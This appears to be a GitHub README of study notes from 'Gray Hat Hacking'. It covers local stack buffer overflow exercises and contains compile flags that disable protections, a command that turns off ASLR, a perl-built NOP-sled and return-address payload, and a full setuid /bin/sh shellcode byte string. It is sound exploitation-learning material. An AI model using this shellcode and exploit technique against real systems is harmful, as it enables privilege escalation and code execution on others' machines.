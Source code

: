 Grayshell
=========

Some basic shell code, when I learn &lt;Gray Hat Hacking>


#How to run 

##Example1 : Buffer_overflow
//notice we start out at user privileges "$"

```
gcc overflow.c -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -o overflow
``` 

```
$gdb -g overflow 
(gdb) run
(gdb) info req eip
(gdb) q
```

##Example2 : Meet.c
//notice we start out at user privileges "$"

```
gcc meet.c -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o meet
``` 
//notice the difference between ` and '

```
./meet Mr `perl -e 'print "A" x 600'`
```
```
ESP: 0xbffffc58

0xbffffc58 - 0x300 = 0xbffff958

perl -e 'print "\x58\xf9\xff\xff"x38'

```
```
./meet Mr `perl -e 'print "\x90"x200';``cat sc``perl -e 'print "\x58\xf9\xff\xff"x38';`
```






##Example3 : Shellcode.c
```
gcc -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o shellcode shellcode.c
```
```
\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

##Example4 : Repeat return address

```
gcc -o get_sp get_sp.c
```

### forbidden ASLR
```
echo "0" > /proc/sys/kernel/randomize_va_space 

ESP: 0xbffffc58


``` 

## peercast 
```
http://peercast.sourcearchive.com/downloads/0.1214.toots.svn20051112/
```
